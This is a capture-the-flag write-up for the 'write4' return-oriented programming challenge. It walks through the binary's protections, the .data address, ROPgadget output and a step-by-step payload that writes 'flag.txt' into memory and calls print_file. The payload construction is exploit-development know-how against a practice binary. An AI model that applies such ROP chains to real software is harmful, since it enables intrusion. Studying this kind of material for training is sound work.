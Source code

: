 # write4

In this problem, there is a function in shared library named print_file, which will open the file with its argument. The problem here is that this argument, for example "flag.txt" is too long to store in a x86_64 register. Therefore, we need to find some space to store the argument for calling print_file.

First, check the security of the binary:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial

```
Store the argument in stack is impossible because the ASLR in linux, which will make stack, heap address unknown to us.

A straightfoward solution is to store the argument in the data section of the ELF file, then make the print_file to get argument from that address.

Since PIE is disabled, data section address is known for us.   

We can use readelf command to find the address of the data section.
```
...
.data = 0x601028 (dataSect)
...
```
Then, we need to find some rop to help us store the string "flag.txt" to the data section. We can find a gadget with two pop operations pop r1, pop r2, which means that these two registor can be controled by us. Secondly, we need to find a mov operation with the format like mov ptr[r1] [r2], so we can move the value in register r2 to the place we want to store.

Use ROPgadget to find possible gadgets.
```
ROPgadget --binary write4
```
We find two suitable gadgets.
```
...
0x0000000000400690 : pop r14 ; pop r15 ; ret (gadget1)
0x0000000000400628 : mov qword ptr [r14], r15 ; ret (gadget2)
...
```
Firstly, we need to pop the address of data section and string "flag.txt" into r14, r15 by using gadget #pop r14 ; pop r15 ; ret, and then use gadget #mov qword ptr [r14], r15 ; ret to move the string value to the data section.

Next, using ghidra, we know that print_file function obtain argument from rdi register. Therefore, we store the address of data section to rdi using another gadget.

We find a gagdet we need.
```
...
0x0000000000400693 : pop rdi ; ret (gadget3)
...
```
Finally, we can jump to the print_file function address, same as previous problem, we can find print_file address from plt table.
```
peda$ plt
Breakpoint 1 at 0x400510 (print_file@plt)
Breakpoint 2 at 0x400500 (pwnme@plt)
```
Now, we can build out payload, same as problem before, there is a 32 bytes buffer, and 8 bytes rbp.
```
'A'*40
```
Pop the address of data section and string "flag.txt" into r14, r15, and move the string to data section.
```
p64(gadget1) + p64(dataSect) + b"flag.txt" + p64(gadget2)
```
Store the address of data section to register rdi.
```
payload += p64(gadget3) + p64(dataSect)
```
Jump to print_file function.
```
p64(print_file@plt)
```
Write exploit.py using pwntools, and we obtain the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
